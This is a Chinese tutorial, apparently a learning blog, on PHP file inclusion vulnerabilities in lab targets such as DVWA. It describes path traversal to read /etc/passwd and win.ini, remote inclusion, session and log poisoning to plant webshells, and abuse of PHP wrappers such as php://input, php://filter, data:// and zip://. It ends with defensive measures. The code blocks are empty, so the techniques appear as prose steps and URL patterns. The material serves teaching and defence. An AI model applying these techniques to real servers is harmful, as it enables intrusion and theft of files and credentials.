Require：require 和 include几乎完全一样，除了处理失败的方式不同之外。require 在出错时产生 E_COMPILE_ERROR 级别的错误。换句话说将导致脚本中止而 include只产生警告（E_WARNING），脚本会继续运行。
Include_once：include_once 语句在脚本执行期间包含并运行指定文件。此行为和 include语句类似，唯一区别是如果该文件中已经被包含过，则不会再次包含，且 include_once 会返回 true。 如同此语句名字暗示的那样，该文件只会包含一次。 include_once 可以用于在脚本执行期间同一个文件有可能被包含超过一次的情况下，想确保它只被包含一次以避免函数重定义，变量重新赋值等问题。
Require_once：require_once 语句和 require语句完全相同，唯一区别是 PHP 会检查该文件是否已经被包含过，如果是则不会再次包含。
1 | |
1.5.1 判断服务器类型
其实判断服务器类型还是很好判断的, 在linux系统当存在1.php的时候读取就是cat 1.php，而且读取的内容假如是：“I Love You”，若是读取1.Php那么还能够显示"I Love You"吗？结果肯定是不行的，由于在linux中是严格区分大小写的。而在windows中是不区分大小写的，这里就可以使用windows进行测试。
通过上面的图片能够看出来，我在URL中读取的是1.phP，但文件夹中只有1.php，但依旧显示PHP的默认文件。这就验证了我上面提到的Windows是不区分大小写的。
1.5.2 敏感文件读取
所谓读取敏感文件，就是将WEB服务器上一些其他文件读取出来，这些其他文件中可能包含一些敏感文件，私密文件或者是一些数据、表格等。
1.5.3 绝对路径读取
绝对路径是指目录下的绝对位置，直接到达目标位置，通常是从盘符开始的路径，绝对路径读取就是通过明确的路径进行读取文件，比如windows或者linxu中的一些日志文件存在的路径，或者一些配置文件存放的路径。
1 | |
绝对路径读取案例
通过URL看到我这里是直接读取我C:\tool\PHPTutorial\1.txt的文件。

1.5.4 相对路径读取
相对路径就是指由这个文件所在的路径引起的跟其它文件（或文件夹）的路径关系。相对路径读取就是当我们不知道某个文件具体路径的时候，使用相对路径以当前位置作为参看向后退，逐次访问。
1 | |
eg__1:
这里我把1.txt创建在C:\tool\PHPTutorial目录下，而现在这个文件包含漏洞放在www下也就是C:\tool\PHPTutorial\www，所以这里我只需要输入一次"…/"就可以读取到1.txt了。
eg__2:
这里我们思考一下若我们要访问C:\windows\win.ini，该怎么读取呢？其实这里可以先退到根目录下也就是C盘下，然后在访问windows中的win.ini。
目前我们在C:\tool\PHPTutorial\www下面，那么可以算一下我们要退几次？这里通过目录也能够看出来，这里只需要退三次就可以到C盘下了。
这里由于无法在C盘中创建文件，就无法演示了，那么这里我们直接读取C:\windows\win.ini吧。

eg__3:
这里又出现一个问题，若我们并不知道我们存在那个目录下，更不知道该退几级怎么办？其实这里通过"…/“退可以多退几次，因为最终只能够退到C盘，所以在不知道几级的情况下，可以多输入几个”…/“。
可以看我下面的图片，我原本只需要退三次就可以了，而我这里退八次依旧能读取到，所以就能证明刚刚我所解释的，不管输入多少个”…/"最终只会退到C盘。

1.5.5 远程文件读取
远程文件包含大概意思在之前已经提过了，这里就演示一下案例。
前提条件：目标服务器的allow_url_fopen选项是on。只有当这个选项是on的时候就能够使用远程文件包含一句话木马。
这里用别人的演示
远程文件配合一句话木马案例
网站服务器：192.168.10.150
攻击者主机：192.168.10.50
攻击者php代码：
1 | |

通过查看服务器网站根目录，可以看到这里已经创建了一个名为shell.php的文件。那么我们通过这个文件使用蚁剑进行连接。

通过上面的图片可以看到，我们已经成功连接了。这里需要注意的是，我们这个地址是知道的，若在实际环境中操作的时候可能需要注意查找路径。
基于上面的文件包含的知识背景，我们可以有一个攻击的大概步骤：
我们先从include函数入手，来看一下include函数有什么特殊的地方，为此我们编写一个小脚本来验证下。
1 | |
在验证文件包漏洞的时候我们通常使用/etc/passwd文件是否能够被成功读取，该文件是我们linux的用户组信息，且这个文件的权限所有用户都可读。且里面包含的信息是我们当前服务器的所有用户的信息，属于敏感信息。
现在我们用这个小脚本验证一下是否能够成功的读取/etc/passwd文件。

我们发现成功的读取了/etc/passwd下面的文件。下面我们换一下我们要读取的文件，换个不存在的文件试一试，看看有什么效果

我们可以看到我们的服务器报了个warning的错误,因为此文件不存在，这正好是include函数的特点，文件不在的时候会丢出warning的错误，然后还会接着运行下去。接下来我们将include函数切换到require函数，看看有什么区别。

我们可以看到，我们的include在找不到文件的情况下会丢出warning的错误，而我们的requore函数直接丢出failed错误，直接就停止运行了，这就是我们之前介绍我们include和require函数的区别的地方。
下面我们从session文件包含来进行getshell的演示，我们先从phpinfo的信息获取到我们session的存储位置（这个位置其实我们可以猜测到的，因为就那几个固定的存储位置，例如：/var/lib/php5/sessions、/var/lib/php7/sessions、/var/lib/php/sessions等）
ps: 接下来先跟着吧,我的环境是windows的…

为了验证session文件包含漏洞我们编写了一个简单的脚本，如下所示：
1 | |
我们先打开浏览器访问此文件，然后我们在按F12键，查看我们的cookie，我们可以看到我们cookie中有个PHPSESSID的名称，其中它的值就是我们sessionid的值，也就是我们需要包含的文件。
我们在通过这个脚本，向seesion写入恶意的数据

这个时候我们打开我们的服务器，进去我们存储session的目录,然后找到对应的session文件，我们可以看到我们的内容已经成功写入到我们的session里面了。
然后我们访问我们session文件发现我们写入的脚本已经成功被执行了
接下来我们继续验证日志文件包含，但是我们需要满足条件才能进行文件包含，因为我们在读取文件的时候我们需要权限才能读取，我们看一下我们原本服务器日志文件的权限(这里看别人的)
可以看到我们可读权限仅适用于当前用户和用户组，其它用户并没有可读的权限。为了验证我们的实验，我们将其它用户设置成可读的权限。这样我们就可以读取我们的日志文件了。
现在我们就可以构造我们恶意的日志信息了，这里有一点需要注意下，我们在构造我们的日志信息的时候，不能直接在浏览器中构造（在url后面构造信息），因为如果直接在浏览器中构造，存储到日志信息的时候就会进行urlencode编码了，导致我们不能正常构造我们需要的日志信息，此时我们就需要BurpSuite工具了，通过抓包修改数据，这样存储的日志就不会进行urlencode编码了。
这里用现成的图片, 我忘了截屏了
可以看到已经写到了日志文件
这里不知道为何包含不了
1.6文件包含之伪协议利用
1 | |
php语言内置了很多封装协议，而这些协议则是我们处理文件包含漏洞经常用到的方法，最常见的协议有以下几种：
php://input
php://input 是个可以访问请求的原始数据的只读流。 POST 请求的情况下，最好使用 php://input 来代替 $HTTP_RAW_POST_DATA，因为它不依赖于特定的 php.ini 指令。 而且，这样的情况下 $HTTP_RAW_POST_DATA 默认没有填充， 比激活 always_populate_raw_post_data 潜在需要更少的内存。 enctype=“multipart/form-data” 的时候 php://input 是无效的。
此协议需要allow_url_include为on，在之前也强调过了。Input伪协议可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，所以它才能执行我们构造的数据。
php://input主要是用来执行php代码的，不过php://input需要以POST提交，这里我们先在URL中添加php://input然后抓包把GET修改为POST(但如下两图可以看出似乎不必把get修改为post)，最后在数据包的最后输入想要执行的代码就可以实现代码执行。
1 | |
1、在文件包含页面，通过burpsuite抓包：
2、用burpsuite抓包在url中输入php://input，在底部请求数据中可以写任意PHP代码：
获得phpinfo信息：
3、通过php代码执行系统命令：
4、写入一句话木马文件：
1 | |

5、页面出现乱码解决：
在setting设置中可以找到
php://filter
php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file()和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。
php://filter 可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启，读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了
利用条件：
只是读取，所以只需要开启
allow_url_fopen，对allow_url_include不做要求。
用法：php://filter/read=convert.base64-encode/resource=要读取的文件
1 | |
我们来看下我们用filter伪协议读取的文件，因为我们使用了转换过滤器，导致输出的结果是base64编码的格式
base64解码得到flag
当然里不单单只能读取当前目录下的文件，这里就演示一下另外一种读取方式，我将文件放在上一级目录中，通过php进行读取。
1 | |
仔细看URL连接就能看出来，这里使用了之前提到的相对路径读取。
其中filter伪协议内置了很多过滤器，有字符串过滤器，转换过滤器、压缩过滤器、加密过滤器等
用法：
1 | |
1、调整DVWA的安全级别，并进入文件包含里面：
2、使用php://协议进行文件包含file1.php，可以看到，已经返回了包含文件的base64加密源码：
这个协议的含义为：通过php协议读取本地敏感文件的源代码，对读取的的文件进行base64加密，并返回加密后的文件内容。
解密得到源码
4、通过目录穿越的方法读取index.php文件：
1 | |
一般我们是在已知网站结构路径的前提下，获取网站的源代码。
file://
file:// — 访问本地文件系统, file其实和绝对路径读取差不多。
1 | |
靶场源码：
1 | |
校验流程：通过GET的请求方式接收包含的文件-->如果通过get方式传递过来的参数字符串中，开头没有以file*开头的字符串，并且不能包含include.php文件-->则输出文件未发现，并且退出
利用条件：
file://用于访问本地文件系统，且不受allow_url_fopen与allow_url_include的影响。
1 | |
1、调整DVWA的安全级别，并进入文件包含里面：
2、使用本地文件包含，没有发现文件：
注：通过上面源码我们发现，只要传入的参数的没有以file开头的字符，则输出文件未发现，并且退出。
3、这里我们通过file:///协议进行绕过，发现可以访问host文件：
我们包含：file:///C:\Windows\System32\drivers\etc\hosts
http: //
其实http这里的利用方式，除了能够跳转，还能进行远程包含进行漏洞执行。
1 | |
data: //
从php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执行任意代码。
这里需要注意若使用data的话需要allow_url_include 和allow_url_fopen为on。
利用条件：
和
php伪协议的input类似，也可以执行任意代码，但利用条件和用法不同。
条件：allow_url_fopen参数与allow_url_include都需开启。
1 | |
1、使用用法1执行代码：
执行内容：
1 | |
2、使用用法2执行代码：
执行内容：
1 | |
注：经base64编码后的加号和等号要手动的url编码，以免浏览器识别不了。
对执行内容进行base64加密：
可以看到系统命令已经执行成功：
ftp://和ftps://
ftp:// – ftps:// — 访问 FTP(s) URLs
zip://
可以访问压缩包里的文件。当他与包含函数结合时，zip://流会被当做php文件执行。
下面是针对某些封装协议的利用方式和特点
利用条件：
zip://可以访问压缩文件中的文件。
条件： 使用zip协议，需要将#编码为%23，所以需要PHP 的版本>=5.3.0，要是因为版本的问题无法将#编码成%23，可以手动把#改成%23。
1 | |
1、将靶机网站主目录下的1.php，压缩成1.zip压缩包：
内容：
1 | |
2、通过zip://伪协议对它进行文件包含：
注：要是把压缩包的后缀改为其他任意格式的文件也可以正常使用
compress.bzip2://
用法：
1 | |
compress.zlib://
1 | |
phar://
利用条件：
与
zip://协议类似，但用法不同，zip://伪协议中是用#把压缩文件路径和压缩文件的子文件名隔开，而phar://伪协议中是用/把压缩文件路径和压缩文件的子文件名隔开。
用法：
1 | |
使用phar://对1.zip文件进行文件包含：
1.7文件包含日志读取
日志会记录客户端请求及服务器响应的信息，访问http://www.xx.com/时，也会被记录在日志里，也可以插入到User-Agent，但是请求的信息有可能被url编码之后记录日志，这里可以通过burp来发送请求包来防止被编码，通过相对路径找到日志文件，利用包含漏洞执行。各类日志存在位置
1.1 漏洞原理
当某个PHP文件存在本地包含漏洞，而却无法上传正常文件，这就意味这有包含漏洞却不能拿来利用，这时攻击者就有可能会利用apache日志文件来入侵。
Apache服务器运行后会生成两个日志文件，这两个文件是access.log(访问日志)和error.log(错误日志)，apache的日志文件记录下我们的操作，并且写到访问日志文件access.log之中。
1.2 利用方法
通过日志文件
getshell：
1.通过burpsuite发送的请求包产生日志数据；
2.包含日志文件；
3.写入一句话木马getshell
1.3 Apache
apache存在两个文件日志文件，access.log是记录登录等信息的日志文件，而error.log是错误文件。
1 | |
实操：
1. 日志文件路径：
1 | |
这里主要查看access.log这个日志，这个日志记录着服务器所有的访问记录，包括一些攻击流量：
2. 没有access.log访问日志的原因：
进入日志目录下，如果发现没有access.log这个访问日志，是因为apache配置文件没有打开这个配置选项，需要对相应的功能进行开启。
3. 开启access.log访问日志功能：
1、通过配置文件的开启access.log访问日志功能：
2、搜索CustomLog "logs/access.log" common，将前面的##注释去掉，并保存文件，然后重启PHPstudy:
3、查看访问日志文件，日志目录下已经出现这个文件，说明成功开启访问日志功能：
4、访问几个网页，查看记录，对自己访问的页面有记录，说明access.log可以自动记录访问操作：
实操过程：
1、我们通过访问，让访问日志记录我们的phpinfo();代码，可以看出，访问日志已经成功记录了我们的访问历史：
访问内容：
1 | |
注：通过上图我们可以看出，日志已经成功记录我们的访问历史，但是是经过URL编码后的结果。如何让它记录我们原始完整的代码呢？一般URL编码是我们的浏览器进行完成的，它对我们访问的目录做了URL编码，然后发送到服务器，我们可以通过burpsuite，把经过浏览器URL编码后的数据进行修改。
2、使用burpsuite修改编码后的数据：
3、查看访问日志，可以看出，没有编码的phpinfo();代码已经成功记录：
4、文件包含只要文件中有php代码，它就会把这个文件当做php脚本进行解析，这样我们可以包含这个日志文件，让目标服务器把日志文件解析为php脚本；可以看出，已经成功解析日志文件为php脚本：
5、让访问日志文件记录下写入文件脚本代码：
访问内容：
1 | |
6、对访问日志进行文件包含，并查看创建的一句话脚本，已经创建成功：
这里不知为何老是被截断，说是有特殊字符或者长度过长，我不理解，就先学个思路吧
下面是成功者的图片
7、使用蚁剑连接webshell，成功获得靶机的webshell权限：
1.4 Nginx
nginx存在两个文件日志文件，access.log是记录登录等信息的日志文件，而error.log是错误文件。
1 | |
1.5 IIS
1 | |
1.6 包含Apache日志案例
Apache运行后一般默认会生成两个日志文件，access.log(访问日志)，error.log(错误日志)。
下图就是被转码的，只需要手动修改一下重新发送即可。(这里的转码就不叙述了, 上述有: 1.5.6 远程文件读取)
1 | |
通过对本地的日志文件进行包含读取，输入123=phpinfo();。
1 | |
当然也可以使用蚁剑来进行连接。
1 | |
1.8文件包含漏洞攻击防范
文件包含漏洞已经是Web安全史上经常用的攻击手段，且它的利用方式简单，造成的危害巨大，虽然我们现在已经有了很全面的防范对策，但是它的危害还是很大，上述实验我己经从多种角度解析了文件包含漏洞，也阐述了它可以做的事情已经造成的危害，下面我们开始着重介绍怎么对此漏洞进行防范和检测，避免造成不必要的损失。
0x01检查服务器配置文件
在php中有个php.ini的配置文件，里面大概是对php语言所有功能配置文件集合，其中里面有两项是allow_url_fopen、allow_url_include两个选项，其中allow_url_fopen默认是开启的，allow_url_include默认是关闭的，如果我们开启这个配置文件，我们就可以使用伪协议读取我们的敏感信息和其它操作，虽然开启allow_url_fopen也可以读取我们的文件，但是我们可以通过过滤一些字符或者限制用户的输入从而达到攻击者不能读取我们信息的操作。
0x02过滤特殊符号
在进行文件包含的时候我们可能经常会用到几个固定的字符，或者我们在用伪协议的时候我们也会使用特定的字符，例如：\，//，input，output，filter等我们可以将这些铭感字符都给过滤掉。代码如下
1 | |
此时我们再用我们之前的攻击手法，发现已经读取不到文件了。
因为str_repleace只会替换一次，可以有办法绕过的，所以这里我们还有正则匹配的方式，只要用户输入的字符串被我们正则匹配我们就会警告结束程序的运行。我们来看下我们的源码。
1 | |
0x03指定包含的文件 （白名单）
我们在做网站开发的时候我们可能经常会使用我们文件包含的函数，但是我们呢包含的文件都是我们指定的文件，也就是我们知道我们需要包含什么文件。这样，我们在包含文件的时候就可以添加一条规则，让我们只能包含指定的文件，如果我们包含了非指定的文件，程序就会报错退出。下面来看下我们实现的方法。
1 | |
0x04设置文件目录
php的配置文件中有open_basedir选项可以设置用户需要执行的文件目录，如果设置文件目录的话，我们编写的脚本只会在该目录中搜索文件，这样我们就可以把我们需要包含的文件放到这个目录就可以了，从而也避免了敏感文件的泄露。

1 | |
一般java的站点存在文件系列的洞比较多(除了文件包含)。